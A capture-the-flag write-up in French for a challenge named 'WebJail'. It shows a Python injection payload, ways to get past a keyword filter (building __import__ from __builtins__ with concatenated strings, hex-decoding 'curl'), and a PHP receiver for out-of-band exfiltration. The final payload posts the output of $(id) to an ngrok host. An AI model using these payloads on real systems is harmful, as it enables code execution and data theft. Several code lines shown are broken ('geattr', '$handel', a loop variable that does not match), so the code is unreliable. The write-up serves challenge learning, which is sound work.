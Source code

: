 # WebJail

**Introduction**

- Le challenge nous fournit une page qui nous offre la possibilité d'exécuter des commandes via un formulaire.
- Note, les données de formulaire sont représentées de la manière suivante: ``command=rand&execute=Execute``
<br/>

![image](https://user-images.githubusercontent.com/74382279/157317880-896d7863-c7bd-4384-8bc6-b6ae7b3081a3.png)

J'essaye d'envoyer une commande Python: ``print(1)``, mais aucun résultat. Je suppose donc qu'on doit jouer avec la requête pour trouver le bon point d'entrée.<br/>
Pour ce faire je teste plusieurs techniques d'escape, quand finalement j'obtiens un résultat différent. La commande suivante: ``);print(1)#``

![image](https://user-images.githubusercontent.com/74382279/157317785-2baf2def-ea0a-48e6-9e94-1079e55cc2a7.png)

L'idée est d'importer une lib (os) pour exécuter des commandes Bash. Donc je tente d'importer la lib ``os`` pour exécuter ``id``: ``);import os;os.popen('id').read()#``.
Malheur, j'obtiens la réponse ``Blocked``. Je pars du principe que le chall contient un filtre qui match plusieurs fonctions Python.
<br/>

![image](https://user-images.githubusercontent.com/74382279/157318532-29ad4480-d328-4db3-afcd-5042f5be7e0e.png)

Je vais devoir builtin des fontions à partir de la lib ``__builtins__``.
La méthode ``getattr()`` renvoie la valeur de l'attribut nommé d'un objet. S'il n'est pas trouvé, il renvoie la valeur par défaut fournie à la fonction.
``);geattr(__builtins__,'__imp''ort__')('o''s').popen('id')#``, par défaut j'utilise une méthode de concaténation pour éviter de faire trigger la commande par le filtre.
N'oublions pas que la méthode ``read()`` n'est pas acceptée. Dans ce contexte on est supposé d'envoyer la requête en stdout vers un serveur web qu'on hébergera localement pour récupérer les données ``POST``. Tout ça ``OOB`` (Out of band). Les données ``OOB`` sont transférées via un flux indépendant du flux de données principal dans la bande.
J'utilise Wampserv comme hébergeur local. First of all je script la fonction suivante en ``PHP``:

```php
<?php

if(isset($_POST["data"]) && !empty($_POST["data"])) {
  $handle = fopen("data.txt", "a+");
  fwrite($handel, $_POST["data"] . "\n");
  fclose($handle);
}

echo file_get_contents("data.txt");

?>
```

J'héberge le fichier ``PHP`` dans le dossier ``tmp``. Comme tunnel j'utilise ``ngrok``: ``ngrok http 80``.
J'ai maintenant mon lien, que je peux exploiter pour recept les données.
Je reviens à la base, mais cette fois-ci en utilisant ``curl`` pour renvoyer une requête POST: ``);geattr(__builtins__,'__imp''ort__')('o''s').popen('curl\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
J'obtiens ``Blocked``, le filtre a donc trigger une partie de la commande. Ayant la flemme de chercher une alternative (``wget triggered``). Je teste plusieurs techniques de bypass: ``'CURL'.lower()`` => ``Blocked``. Je tente une méthode de chiffrement pour déchiffrer dynamiquement et exécuter ``curl``.
```py
>>> ''.join([str(hex(ord(s)))[2:4] for s in 'curl'])
'6375726c'
>> ''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])
'curl'
```
Vous avez dû remarquer, j'ai réécrit la fonction ``hex()`` pour éviter une autre fois le filtre. Comme requête finale j'obtiens:
``);geattr(__builtins__,'__imp''ort__')('o''s').popen(''.join([chr(int(''.join(c),16)) for s in zip('6375726c'[0::2],'6375726c'[1::2])])+'\x20-X\x20POST\x20-d\x20\x22data=$(id)\x22\x20https://rand.ngrok.io/tmp')#``.
Le serveur me renvoit bien la réponse:
<br/>

![image](https://user-images.githubusercontent.com/74382279/157323588-d2b559b5-7894-43c3-8a14-2c9bd8b79e00.png)


